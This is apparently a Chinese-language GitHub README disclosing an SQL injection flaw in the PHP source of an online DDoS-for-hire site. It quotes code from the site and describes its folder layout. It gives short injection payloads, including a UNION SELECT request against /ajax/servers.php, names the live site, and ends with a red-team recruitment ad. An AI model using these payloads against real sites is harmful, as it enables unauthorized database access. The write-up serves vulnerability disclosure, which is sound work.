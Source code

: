 # Security
一个小洞洞，不喜欢写很多废话，下面的描述也是。

# 小介绍
无意中在谷ge上搜索到了提供在线DDOS攻击的站点，感觉好好奇哦，这玩意是不是可以改变世界？

URL：http://www.ddos.rip/

这里是测评介绍，感觉挺丰富且价格也不是很贵，然后对于我们这些搬砖的攻城狮而言，花钱是不可能的，一定是不可能的！

# 过程
$SQLCheckLost = $odb -> prepare("SELECT COUNT(*) FROM `users` WHERE `username` = :username AND `email` = :mail AND `scode` = :scode ");
$SQLCheckLost -> execute(array(':username' => $username, ':mail' => $mail, ':scode' => $scode));
$countLost = $SQLCheckLost -> fetchColumn(0);
if ($countLost > 0)
{
function generarCodigo($longitud) {
 $key = '';
 $pattern = '1234567890abcdefghijklmnopqrstuvwxyz';
 $max = strlen($pattern)-1;
 for($i=0;$i < $longitud;$i++) $key .= $pattern{mt_rand(0,$max)};
 return $key;
}

几乎全部的文件都是通过预处理进行SQL传递，这玩意跟注入一直就是死对头，但是在SERVERS.PHP这玩意中没有估计到，虽然也是预处理，但是并没有通过赋值操作。
# Payload

```server.php?sv=A1%%23' 将SQL语句闭合，然后你们懂的。```
```/ajax/servers.php?sv=A1%%27%20UNION%20ALL%20SELECT%20user()%23-- Next You K```

# 影响

这样说吧，百分之七十的DDOS在线攻击网站都存在......g
谷x搜索:
https://www.google.com/search?ei=IO0NXaHYIIzdvgT2vq3ABg&q=ddos%E7%BD%91%E9%A1%B5%E7%AB%AF&oq=ddos%E7%BD%91%E9%A1%B5%E7%AB%AF&gs_l=psy-ab.12...853628.857136..858562...0.0..0.1153.1153.7-1......0....1..gws-wiz.XQGEBD9xDU0


# 结构

```
├─@
├─admin
├─ajax
│  ├─Crypt
│  ├─File
│  ├─js
│  ├─Math
│  └─Net
├─apikey
├─assets
│  ├─images
│  └─user
│      ├─css
│      ├─fonts
│      └─js
├─css
├─fonts
├─images
├─js
├─picture
└─user
```

这种垃圾的架构我也是醉了，虽然我不会ThinkPhp审计......
@ 文件夹主要是Config文件以及全局函数文件
admin 就不说了，此文件夹下也存在着相同的漏洞，但是对于黑盒而言，此漏洞是不存在的，因为TMD的后台根本就不会让你找到
ajax 主要以usercp为主，以及前台登录的login，以及servers
apikey 通过前端获取命令然后通过api向发包机发送指令
下面几个文件夹可以无视

# 么么哒

奇安信(原360企业安全)高级攻防部招聘

红队方向、渗透测试、还有一些你喜欢做的事情.....

usernameandpwd@protonmail.ch
